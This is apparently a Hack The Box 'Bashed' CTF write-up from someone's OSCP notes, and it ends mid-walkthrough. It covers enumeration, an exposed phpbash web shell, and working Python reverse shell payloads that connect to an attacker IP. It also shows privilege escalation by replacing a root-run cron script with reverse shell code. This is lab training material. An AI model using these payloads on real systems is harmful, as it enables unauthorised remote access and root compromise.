

---
metaLinks:
  alternates:
    - >-
      https://app.gitbook.com/s/qDX4NWkPelZggTpGCfyF/course-review/cyber-security-courses-journey/oscp-journey/ctf/hack-the-box/linux-boxes/bashed-easy
---

# ✅ Bashed (Easy)

## Lesson Learn



## Report-Penetration

**Vulnerable Exploit:** Misconfigure on Web Shell File&#x20;

**System Vulnerable:** 10.10.10.68

**Vulnerability Explanation:** The application fails to restrict access to the web shell file which allows the unauthorizing user access to /dev directory as well as the web shell file. For escalation is vulnerable because of misconfigure permission which allow www-data user escalate to other user and execute file as root.&#x20;

**Privilege Escalation Vulnerability:** Misconfigure permission of user

**Vulnerability Fix:** Restrict access to sensitive directory or file from unauthorize user and least privilege user on the machine.

**Severity:** High

**Step to Compromise the Host:**&#x20;

## Reconnaissance

```
nmap -sC -sV -p- -T4 10.10.10.68
```

.png>)

## Enumeration

**Port 80 Apache/2.4.18 (Ubuntu)**

We have found only port 80 open on the remote machine. Let browse and check on port 80.

.png>)

.png>)

Let start enumerating with gobuster to find if there is any directory hidden. We have found interesting directory is **/dev.**

```
$ gobuster dir -u http://10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50           
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.68
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/10/28 10:25:08 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]    
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]    
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]    
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]     
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/] 
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]  
/server-status        (Status: 403) [Size: 299]                                  
                                                                                 
===============================================================
2021/10/28 10:28:28 Finished
===============================================================
```

We have seen the file name **phpbash.php** as the display on the main web page.

.png>)

By click on that file, it redirects us to web shell which we can execute command on the remote machine.&#x20;

## Exploitation

By enumerating, we found netcat installed on machine. Let try to get reverse shell but unfortunately we can't.

.png>)

Let start enumerating if there is any other tool available on the machine. We have found python. We can get reverse shell by python script.

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.31",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

.png>)

By listening with netcat on port 4444, we suddenly get shell on the machine.

```
nc -lvp 4444
```

.png>)

## Privilege Escalation

First thing first, Once I get onto the machine, I will run `sudo -l` on the machine to check. We found out that we can run as user scriptmanager without knowing the password.

.png>)

By enumerating on the machine, we found interesting directory /scripts which own by user scriptmanager whereas the rest own by root. It's seem interesting to us.

.png>)

Let escalate our privilege to scriptmanager user.

```
sudo -u scriptmanager /bin/bash
```

.png>)

Once we are accessing to the script folder, we found there are 2 files. For **test.py** which own by user scriptmanager and **test.txt** own by root.

### Auto script python

.png>)

Viewing the file test.py, it seems like it schedules to write file test.txt as root permission. As we have permission on file test.py, we can replace it with reverse shell code on file test.py.

```
import socket,subprocess,os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.31",5555))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/bash","-i"]);
```

&#x20;We can host this file on our kali machine and let remote machine download and replace it.

```
python -m SimpleHTTPServer 80
```

.png>)

Let change file name **test.py.1** to **test.py** to replace the existing file and set permission on file.

.png>)

Let run netcat listener on port 5555 and wait for sometimes for script to execute.

.png>)
